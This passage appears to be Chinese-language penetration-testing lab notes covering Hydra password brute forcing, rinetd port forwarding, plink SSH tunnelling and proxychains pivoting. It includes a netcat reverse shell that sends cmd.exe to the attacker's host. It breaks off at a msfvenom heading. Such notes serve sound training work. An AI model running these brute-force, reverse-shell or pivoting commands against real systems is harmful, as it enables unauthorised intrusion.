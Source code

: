 server                                                  目标服务器名称或者IP(使用这个或-M选项)
service                                                 指定服务名,支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http[s]-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh2 smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等
OPT                                                     一些服务模块支持额外的输入(-U用于模块的帮助)


示例:
hydra -l admin -P password-file.txt -v 192.168.31.219 ftp


## 端口转发与隧道

### rinet

示例:   172.16.40.20(win)要远程连接到67.23.72.100(win)的3389端口,以208.88.127.99(kali)做中转

```bash
nano /etc/rinetd.conf(添加一行)
208.88.127.99 80 67.23.72.100 3389
/etc/init.d/rinetd restart
```
然后172.16.40.20(mstsc)连接208.88.127.99:80即可


### ssh隧道

示例:
208.88.127.99(kali):
nc -lvp 443

172.16.40.20(win):
nc64.exe -nv 208.88.127.99 443 -e cmd.exe
plink.exe -l root -pw ubersecretpassword 208.88.127.99 -R 3390:127.0.0.1:3389

208.88.127.99(kali):
rdesktop 127.0.0.1:3390


### proxychains

示例:
kali机:
ssh -D 8080 root@admin.megacorpone.com(172.16.40.10)
在8080端口起一个socks代理
nano /etc/proxychains.conf
socks4 127.0.0.1 8080
proxychains nmap -p 3389 -sT -Pn 172.16.40.18-22 --open
proxychains rdesktop 172.16.40.20



# msfvenom
